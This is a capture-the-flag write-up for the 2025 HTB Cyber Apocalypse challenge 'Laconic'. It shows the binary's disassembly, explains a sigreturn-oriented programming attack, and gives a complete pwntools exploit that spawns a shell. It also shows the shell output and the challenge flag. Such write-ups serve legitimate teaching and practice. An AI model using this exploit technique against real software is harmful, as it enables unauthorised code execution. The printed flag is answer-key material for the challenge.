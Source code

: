 # 2025 HTB Cyber Apocalypse - Laconic

The binary given was very simple with the following assembly in `entry`:
```
                             //
                             // .shellcode 
                             // SHT_PROGBITS  [0x43000 - 0x43019]
                             // ram:00043000-ram:00043019
                             //
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined processEntry entry(void)
             undefined         <UNASSIGNED>   <RETURN>
                             _start                                          XREF[4]:     Entry Point(*), 00042018(*), 
                             __start                                                      00042088(*), 
                             entry                                                        _elfSectionHeaders::00000050(*)  
        00043000 48 c7 c7        MOV        RDI,0x0
                 00 00 00 00
        00043007 48 89 e6        MOV        RSI,RSP
        0004300a 48 83 ee 08     SUB        RSI,0x8
        0004300e 48 c7 c2        MOV        RDX,0x106
                 06 01 00 00
        00043015 0f 05           SYSCALL
        00043017 c3              RET
        00043018 58              ??         58h    X
        00043019 c3              ??         C3h
```

The entrypoint performed a `read` call to subsequent memory. Given that `syscall` is present here, this immediatelly implied SROP. The exploit is simple: use `pop rax` gadget to load SIGRETURN syscall that will load our sigreturn frame and execute `execve`. String /bin/sh was already inside the binary under `0x43238`.

```
from pwn import *

context.os = 'linux'
context.arch = 'amd64'

RWX_ADDR = 0x7fffffffe24a
JMP_ADDR = 0x7fffffffe260
JMP = p64(JMP_ADDR)
RET = 0x0000000000043017
SYSCALL_ADDR = 0x0000000000043015
SYSCALL = p64(SYSCALL_ADDR)
POP_RAX_RET = p64(0x0000000000043018)
POP_RSP_POP_RBP = p64(0x7ffff7ffd839)
STACK_ADDR_BEG = 0x7ffffffde000
STACK_ADDR_END = 0x7ffffffff000
BIN_SH_ADDR = 0x43238
SIGRETURN = p64(15)

r = process("./laconic")
#r = gdb.debug("./laconic", '''
#b _start
#set follow-fork-mode child
#b *0x43000
#''')

payload  = b"A"*8
payload += POP_RAX_RET
payload += SIGRETURN

frame = SigreturnFrame()
frame.rax = 59                # execve
frame.rdi = BIN_SH_ADDR
frame.rsi = 0
frame.rdx = 0
frame.rip = SYSCALL_ADDR
payload += SYSCALL
payload += bytes(frame)

r.sendline(payload)
r.interactive()
```

Local execution:
```
$ python3 xpl.py 
[+] Starting local process './laconic': pid 10976
[*] Switching to interactive mode
$ id
uid=1000(vm) gid=1000(vm) groups=1000(vm),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
$ 
[*] Interrupted
[*] Stopped process './laconic' (pid 10976)
```

```
HTB{s1l3nt_r0p_7366e49195536bb2aae0021c6749c4af}
```
